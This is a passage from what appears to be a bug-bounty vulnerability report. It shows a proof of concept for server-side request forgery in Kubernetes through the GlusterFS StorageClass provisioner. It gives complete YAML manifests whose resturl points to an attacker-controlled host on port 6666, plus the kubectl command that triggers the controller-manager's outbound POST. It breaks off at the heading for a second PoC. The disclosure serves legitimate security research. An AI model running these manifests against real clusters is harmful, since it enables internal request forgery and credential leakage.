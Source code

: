 ```yaml
apiVersion: storage.k8s.io/v1
kind: StorageClass
metadata:
name: poc-ssrf
provisioner: kubernetes.io/glusterfs
parameters:
resturl: "http://bzh.ovh:6666/#"
clusterid: "630372ccdc720a92c681fb928f27b53f"
restauthenabled: "true"
restuser: "admin"
secretNamespace: "default"
secretName: "poc-ssrf-secret"
gidMin: "40000"
gidMax: "50000"
volumetype: "replicate:3"
---
apiVersion: v1
data:
key: bXlwYXNzd29yZA==
kind: Secret
metadata:
name: poc-ssrf-secret
namespace: default
type: kubernetes.io/glusterfs
---
apiVersion: v1
kind: PersistentVolumeClaim
metadata:
name: poc-ssrf
spec:
accessModes:
- ReadWriteOnce
volumeMode: Filesystem
resources:
requests:
storage: 8Gi
storageClassName: poc-ssrf
```

We executed the payload with kubectl binary, and the kube-controller-manager handled the
creation process and HTTP request:

```bash
kubectl create -f sc-poc.yam
```
The attacker server was put in listening mode on port 6666 in order to handle incoming
POST requests and verify that how the URL could be arbirary controlled by an attacker:

{F685801}

### PoC n°2 : Redirecting POST to GET HTTP request trick
